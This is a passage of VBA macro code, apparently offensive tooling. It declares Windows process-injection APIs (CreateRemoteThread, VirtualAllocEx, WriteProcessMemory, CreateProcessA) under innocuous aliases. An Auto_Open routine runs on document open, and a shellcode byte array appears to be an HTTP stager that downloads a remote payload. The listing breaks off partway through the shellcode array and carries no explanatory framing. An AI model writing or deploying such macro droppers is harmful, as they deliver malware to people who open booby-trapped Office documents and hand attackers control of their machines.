 ```vbscript
#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

    #If VBA7 Then
        Dim rwxpage As LongPtr, res As LongPtr
    #Else
        Dim rwxpage As Long, res As Long
    #End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,80,0,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,104,55,113,76,0,-64,-89,-9,-97,-35,-61,-2,67,-43,-76,-7,-112,84,-36,22,-7,16,53,19,-31,10,-80,108,-37,-14,26,-10,113,40,56,-114,-98, _
```